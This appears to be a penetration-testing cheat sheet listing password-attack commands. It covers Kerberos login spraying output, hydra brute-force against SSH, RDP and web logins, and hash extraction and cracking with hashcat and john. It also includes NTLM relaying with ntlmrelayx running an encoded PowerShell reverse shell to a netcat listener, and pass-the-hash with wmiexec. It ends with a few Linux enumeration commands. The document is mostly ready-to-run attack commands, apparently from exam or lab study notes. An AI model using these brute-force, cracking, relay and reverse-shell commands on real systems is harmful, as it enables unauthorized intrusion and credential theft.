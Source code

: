   ```bash
  Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop
  
  2019/03/06 21:37:29 >  Using KDC(s):
  2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88
  
  2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
  2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
  2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds
  ```
- `hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201` – SSH password brute-force.
- `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202` – RDP username brute-force with a common password.
- `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"` – Web form password brute-force.
- `keepass2john Database.kdbx > keepass.hash` – Extract KeePass hashes for cracking.
  - `hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force` – Crack KeePass hashes with Hashcat.
- `ssh2john id_rsa > ssh.hash` – Extract SSH private key hash for cracking.
  - `john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash` – Crack SSH key passphrase with John the Ripper.
  - `hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force` – Crack SSH key passphrase with Hashcat.
  - `hashcat -h | grep -i "ssh"` – List SSH-related Hashcat modes.
  - ssh rule
    ```bash
    kali@kali:~/passwordattacks$ cat ssh.rule
    [List.Rules:sshRules]
    c $1 $3 $7 $!
    c $1 $3 $7 $@
    c $1 $3 $7 $#

    kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

    john --wordlist=ssh.passwords --rules=sshRules ssh.hash
    ```
- `hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` – Crack NTLM hashes with Hashcat.
    - NTLM hash mode reference
    ```bash
    kali@kali:~/passwordattacks$ hashcat --help | grep -i "ntlm"   
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
    ```
- `hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force` – Crack NetNTLMv2 hashes with Hashcat.
- Net-NTLMv2 relaying
- `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA...""` – Relay captured Net-NTLMv2 hashes to execute commands on target systems. ( revershell with powershell nc ip 8080 payload)
  - `nc -lvnp 8080` – Set up a listener to catch reverse shells from relayed commands.
- `impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.50.248` - 
## Host Enumeration – Linux
- `uname -a` – Kernel and architecture info.
- `hostnamectl` – Hostname, OS, and hardware summary.
- `ip a; ip route` – Interface and routing insight.
- `ss -tulnp` – Listening sockets and owning processes.